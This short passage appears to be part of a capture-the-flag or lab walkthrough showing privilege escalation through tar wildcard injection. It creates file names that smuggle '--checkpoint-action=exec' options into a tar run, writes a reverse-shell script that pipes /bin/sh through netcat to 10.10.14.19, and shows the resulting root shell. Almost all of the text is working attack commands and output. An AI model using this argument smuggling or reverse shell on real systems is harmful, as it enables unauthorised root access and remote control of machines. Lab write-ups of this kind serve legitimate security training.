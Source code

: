 The -la is passed as an argument, so let's use this to get code execution with tar and --checkpoint

```bash
$ touch -- --checkpoint=1
$ touch -- '--checkpoint-action=exec=sh shell.sh'
```

Create the shell.sh

```bash
#!/bin/bash

rm /tmp/i
mkfifo /tmp/i
cat /tmp/i|/bin/sh -i 2>&1|nc -u 10.10.14.19 9002 >/tmp/i
```

And after some minutes

```bash
$ nc -u -lvnp 9002
Listening on 0.0.0.0 9002
# id
uid=0(root) gid=0(root) groups=0(root)
```
